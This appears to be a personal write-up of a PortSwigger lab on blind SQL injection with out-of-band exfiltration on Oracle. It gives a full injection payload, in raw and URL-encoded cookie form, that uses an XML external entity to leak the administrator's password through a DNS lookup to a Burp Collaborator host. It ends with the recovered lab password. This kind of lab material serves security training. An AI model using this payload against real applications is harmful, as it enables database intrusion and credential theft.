



# Blind SQL injection with out-of-band data exfiltration

## This lab contains a [blind SQL injection](https://portswigger.net/web-security/sql-injection/blind) vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user


___
#blind_sql #oracle_database 

step 1

`' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE username='administrator')||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual--`

Burp Collaborator =>  `8u3u2igoxnoyvhpu3ecnmejam1ssgi47.oastify.com`

`' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE username='administrator')||'.8u3u2igoxnoyvhpu3ecnmejam1ssgi47.oastify.com/"> %remote;]>'),'/l') FROM dual--`

URL Encoded =>
`'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.8u3u2igoxnoyvhpu3ecnmejam1ssgi47.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual`

```sql
TrackingId=bHFIOYPhIvop01kY'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.8u3u2igoxnoyvhpu3ecnmejam1ssgi47.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--
```



step 2

go to burp collaborator
click on Poll now you will see DNS received
`g58q92v0lqm2u03jlayf` is attach with burp collaborator URL which admin password



To solve the lab
login `administrator` as username and password `g58q92v0lqm2u03jlayf`

